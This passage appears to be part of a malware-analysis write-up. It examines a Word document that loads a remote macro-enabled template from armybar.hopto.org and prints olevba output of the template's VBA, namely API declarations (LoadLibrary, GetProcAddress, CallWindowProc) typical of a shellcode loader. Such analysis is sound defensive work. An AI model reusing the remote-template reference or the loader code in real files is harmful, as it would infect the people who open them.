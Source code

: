 - Indicates the resource is external, not embedded within the `.docx` file.
#### Key Findings

1. The document references an external **macro-enabled template file** (`.dotm` file). When the document is opened in Microsoft Word, Word may attempt to load this template.
2. The `Target="https://armybar.hopto.org/RemoteLoad.dotm"` URL shows the document will download the `.dotm` file from `armybar.hopto.org`
3. Possibly a Malicious Document Template Injection attack.

### RemoteLoad.dotm

A `.dotm` file is a Microsoft Word Macro-Enabled Template file. It is used in Microsoft Word to create document templates that include pre-defined styles, formatting, and macros.

Looking into `RemoteLoad.dotm` file and going into Microsoft Script Editor shows that the macros are protected with a password.

![Password Protected VBA Macro](/images/bubarparlimen/password-protected-vba-macro.png)

With **[olevba](https://github.com/decalage2/oletools/wiki/olevba)** , the VBA macro source code can be extracted. 


Olevba Output:

```
olevba RemoteLoad.dotm
XLMMacroDeobfuscator: pywin32 is not installed (only is required if you want to use MS Excel)
olevba 0.60.1 on Python 3.10.11 - http://decalage.info/python/oletools
===============================================================================
FILE: RemoteLoad.dotm
Type: OpenXML
WARNING  For now, VBA stomping cannot be detected for files in memory
-------------------------------------------------------------------------------
VBA MACRO ThisDocument.cls
in file: word/vbaProject.bin - OLE stream: 'VBA/ThisDocument'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Option Explicit
#If VBA7 Then
    Private Declare PtrSafe Function FreeLibrary Lib "kernel32" (ByVal hLibModule As LongPtr) As LongPtr
    Private Declare PtrSafe Function LoadLibrary Lib "kernel32" Alias "LoadLibraryA" (ByVal lpLibFileName As String) As LongPtr
    Private Declare PtrSafe Function GetProcAddress Lib "kernel32" (ByVal hModule As LongPtr, ByVal lpProcName As String) As LongPtr
    Private Declare PtrSafe Function CallWindowProc Lib "user32" Alias "CallWindowProcA" (ByVal lpPrevWndFunc As LongPtr, ByVal hWnd As Long, ByVal Msg As Any, ByVal wParam As Any, ByVal lParam As Any) As Long
#Else
    Private Declare Function FreeLibrary Lib "kernel32" (ByVal hLibModule As Long) As Long
    Private Declare Function LoadLibrary Lib "kernel32" Alias "LoadLibraryA" (ByVal lpLibFileName As String) As Long
    Private Declare Function GetProcAddress Lib "kernel32" (ByVal hModule As Long, ByVal lpProcName As String) As Long
    Private Declare Function CallWindowProc Lib "user32" Alias "CallWindowProcA" (ByVal lpPrevWndFunc As Long, ByVal hWnd As Long, ByVal Msg As Any, ByVal wParam As Any, ByVal lParam As Any) As Long
#End If

Private Const clOneMask = 16515072
Private Const clTwoMask = 258048
Private Const clThreeMask = 4032
Private Const clFourMask = 63

Private Const clHighMask = 16711680
Private Const clMidMask = 65280
Private Const clLowMask = 255
```